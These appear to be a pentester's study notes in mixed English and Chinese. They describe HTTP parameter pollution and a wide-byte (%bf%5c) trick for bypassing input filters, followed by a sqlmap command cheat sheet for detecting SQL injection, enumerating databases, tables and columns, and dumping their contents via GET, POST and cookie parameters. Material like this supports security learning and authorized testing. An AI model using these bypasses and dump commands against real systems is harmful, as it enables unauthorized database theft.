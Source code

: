 So we need to know a tips that

If we do this:

​       **File.php?id=1&?id=8**

In php:

It will ignore the first parameter and only accepts the last get.

So we can make full use of this to bypass the whitelist filter.

​       In jsp:

​         It always take the first parameter in jsp or java application



If there is an escape character conversion. You’d better to encode as utf-16 or else.

​       \ ----- 5c ---- one byte

​       \ ----- %bf%5c ----- two byte ---- it can bypass the filter if it is not filter by hex.

## SQLMAP的使用

### GET注入

| 检测是否存在SQL漏洞                | ./sqlmap.py   -u "url"                                       |
| ---------------------------------- | ------------------------------------------------------------ |
| 获取数据库(在已知有漏洞的前提之下) | ./sqlmap.py   -u "url" --dbs                                 |
| 获取指定数据库下的表名             | ./sqlmap.py -u "url" -D "库" --tables                        |
| 获取字段（已知数据库+表名）        | ./sqlmap.py -u "url" -D "库" -T"表" --column                 |
| 暴表                               | ./sqlmap.py -u "url" -D "库" -T"表"   --dump                 |
| 获取指定字段下的内容               | ./sqlmap.py -u "url" -D "库" -T"表"   -C"字段" --dump        |
| 只取部分内容(相当于LIMIT M,N)      | ./sqlmap.py -u "url" -D "库" -T"表"   --dump --start 1 --stop 5 |

### level检测级别

命令行：./sqlmap.py -u "url" --level n

高级别可能会添加一些payload或者检测http头来，会更加复杂来绕过防火墙。

比如说level 3 会去检测user-Agent啥的

### POST注入

./sqlmap.py -u "url" --data"POST数据"

暴表，爆库操作同表格

### 添加COOKIE信息

./sqlmap.py -u "url" --cookie"COOKIE数据"
